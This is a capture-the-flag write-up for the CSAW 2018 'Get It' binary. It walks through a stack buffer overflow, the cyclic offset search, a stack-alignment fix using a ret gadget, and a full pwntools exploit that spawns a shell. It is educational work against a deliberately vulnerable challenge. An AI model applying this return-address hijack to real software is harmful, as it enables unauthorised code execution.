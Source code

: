 
# Get It

`give_shell()` function at `0x4005b6` that spawns a bash shell.

```c
void give_shell(void)

{
  system("/bin/bash");
  return;
}
```

Generate a cyclic pattern and pass it as input to clobber the return address.

```
gdb ./get_it

pwndbg> cyclic 100
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa

pwndbg> r a
Starting program: /home/wither/NOTES/CSAW/2018/Get-It/get_it a
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Do you gets it??
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
...
 ► 0x4005f7 <main+48>    ret                                <0x6161616161616166>
...
```

Look up the pattern `0x6161616161616166` to find the offset of **40** bytes.

```
pwndbg> cyclic -l 0x6161616161616166
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)

Found at offset 40
```

Using a padding of **40** bytes + the address of the `/bin/bash` call in the `give_shell()` function at `0x0x4005b6` doesn't work, because $rsp is not aligned to **16 bytes**.

```
pwndbg> run < <(python3 -c 'import sys,pwn;sys.stdout.buffer.write(b"A"*40 + pwn.p64(0x4005b6))')
...
 ► 0x7ffff7c5843b <do_system+363>    movaps xmmword ptr [rsp + 0x50], xmm0     <[0x7fffffffd968] not aligned to 16 bytes>
...
```

Use ropper to find the address of a `ret` gadget at `0x400451`.

```shell
ropper --file get_it --search "ret"

[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: ret

[INFO] File: get_it
0x0000000000400451: ret;

```

Add it in front of the payload to **pop** the misaligned bytes, and return to the `system` function that gives us a shell. 

	Note, you need something at the end like the ))')q for the `/bin/bash` pipe to stay open and accept a command.

```
pwndbg> run < <(python3 -c 'import sys,pwn;sys.stdout.buffer.write(b"A"*40 + pwn.p64(0x400451) + pwn.p64(0x4005b6))')q

Starting program: /usr/bin/bash < <(python3 -c 'import sys,pwn;sys.stdout.buffer.write(b"A"*40 + pwn.p64(0x400451) + pwn.p64(0x4005b6))')q
/bin/bash: line 1: /dev/fd/63q: No such file or directory
During startup program exited with code 1.
pwndbg> Exception ignored in: <_io.TextIOWrapper name='<stdout>' mode='w' encoding='utf-8'>
BrokenPipeError: [Errno 32] Broken pipe
ls
exploit.py  get_it  README.md

```

Automate this with Python and pwntools

```python
#!/usr/bin/python3

from pwn import *

context.log_level = 'ERROR'

context.binary = elf = ELF("./get_it", checksec=False)
p = process()

payload = b"A"*40 + p64(0x400451) + p64(0x4005b6)

p.sendline(payload)
p.interactive()
```

And get a shell.

```shell
python3 exploit.py

Do you gets it??
$ ls
exploit.py  get_it  README.md
```
